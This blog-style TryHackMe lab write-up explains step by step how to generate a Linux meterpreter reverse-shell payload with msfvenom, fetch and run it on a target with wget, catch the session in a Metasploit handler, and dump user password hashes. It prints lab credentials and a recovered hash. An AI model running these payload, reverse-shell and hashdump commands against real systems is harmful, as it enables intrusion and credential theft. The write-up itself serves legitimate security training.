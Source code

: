```yaml
---
title: "An Exercise in Metasploit"
excerpt: A short explanation of how to set a meterpreter shell to obtain password hashes of users.
date: 2025-09-21
---
```


This is task 6 in the room *Metasploit: Exploitation* on TryHackMe. The exercise shows nicely why the Metasploit framework is so powerful: essentially we create a payload through a single command and execute it on the target, providing us with a stable shell and root privileges.

We are given login credentials of one user, namely

```text
user: murphy
password: 1q2w3e4r
```

The goal is to get a meterpreter shell running on the target machine so we can dump the password hashes of all users. 

First, we generate a Linux Meterpreter payload on our local (attacker) machine as follows:

```text
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f elf -o meterpreter.elf
```

The individual constituents of the above command:
- `msfvenom`: A command-line utility that is part of the Metasploit Framework. Its main job is to generate and encode payloads.
- `-p`: The "payload" option.
- `linux/x64/meterpreter/reverse_tcp`: The target OS is Linux with 64-bit architecture. The actual payload, `meterpreter`, is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code. It is typically deployed using in-memory DLL injection to reside entirely in memory.
- `reverse_tcp`: The payload will provide us with a reverse shell, i.e. an outbound TCP connection back to the attacker's machine.
- `LHOST`: **L**istening **Host**. The IP address of the attacker's machine where the payload should connect back to.
- `LPORT`: **L**istening **Port**. The port on the attacker's machine that will be listening for the incoming connection. Here, `4444` is just set as an example.
- `-f elf`: Specifies the **f**ormat to be of type `elf`. The .elf format is comparable to the .exe format in Windows.
- `-o meterpreter.elf`: We simply name the **o**utput `meterpreter.elf`.

Next, we make sure that the payload is executable:

```text
chmod +x meterpreter.elf
```

In order to transfer the payload to the target, we use a Python web server, since the user `murphy` might not have sufficiently elevated privileges for our task:

```text
python3 -m http.server 9000
```

After ssh-ing onto the target as user `murphy`, we fetch the payload, save it in `/tmp` and make sure it is executable, as seen in the next command. Notice that in a real-world (malicious/unauthorized) setting, this would have to be executed by means of phishing/social-engineering etc. In this controlled environment it is straightforward.

```text
wget http://<Your_IP>:9000/meterpreter.elf -O /tmp/meterpreter.elf
chmod +x /tmp/meterpreter.elf
/tmp/meterpreter.elf
```

Back on the attacker machine, we establish a listener, similar to a standard netcat-listener:

```text
msfconsole -q                                   # Start Metasploit interface
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <Your_IP>                             # Same IP as in payload
set LPORT 4444                                  # Same port as in payload
exploit
```

Now for the moment of truth. We run the executable on the target machine with the line

```text
./meterpreter.elf
```

If all goes well, this should just keep running in the CLI of the target and we should see the following output in out local attacker CLI, where we just started the listener:

```text
[*] Meterpreter session 1 opened (<Your_IP>:4444 -> <Target_IP>:<Target_Port>)
meterpreter >
```

We now have a stable reverse shell connection. Check privileges with `getuid` or `whoami`. To dump all hashes, we can use the `post/linux/gather/hashdump` module, but we first need to background the current session. Finally, we run the exploit. Thus, we run the following commands:

```text
meterpreter > background        # Send session to background
use post/linux/gather/hashdump  # This was also the hint given by TryHackMe
set SESSION <ID>                # Replace <ID> with your session number
run
```

We find the hash of the other user (not `murphy`) to be `$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`.






